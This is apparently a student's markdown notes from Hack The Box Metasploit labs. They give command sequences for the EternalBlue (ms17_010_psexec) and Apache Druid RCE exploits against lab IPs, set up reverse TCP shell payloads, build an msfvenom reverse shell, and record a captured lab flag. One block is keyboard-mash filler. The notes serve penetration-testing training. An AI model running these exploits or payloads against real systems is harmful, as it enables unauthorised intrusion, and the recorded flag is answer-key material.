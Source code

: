 >[!test]+ LAB01
>`nmap -sV 10.129.195.148`
>`use exploit(windows/smb/ms17_010_psexec) > `
>`set RHOSTS 10.129.195.148`
>`run`
>`shell`
>`cd Administrator/Desktop/`
>`type flag.txt`-->win裡面不能用cat
>this is l1
>this is l2
>
>this will fail

>[!bug]+ th
>rekkor
>
>ropgerko
>
>rjgoejp
>
>erogoopej
>
>regojerp
>
>erjjegj
>erpgpejo


>[!tip]+ msfconsole小技巧
>1. grep 要在前面 ex`grep -c meterpreter show payloads`
>2. 可以多加幾個grep
>3. 要用橋接MODE(VM)->設定VPN
>4. 確認網段 `ip a | grep tun0`
>5. 確認payload `set PAYLOAD linux/x64/shell_reverse_tcp`

>[!test]+ LAB2 payload
>`grep druid search apache`
>`use exploit(linux/http/apache_druid_js_rce)`
>`set PAYLOAD linux/x64/shell_reverse_tcp`
>`run`
>`pwd`
>`cd ..`
>`cat flag.txt`
>`HTB{MSF_Expl01t4t10n}`

>Encoder

encode payload to escape
diverse in x64/x86/sparc/pps/mips

ex. create a plain payload
```
user@htb$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl
```
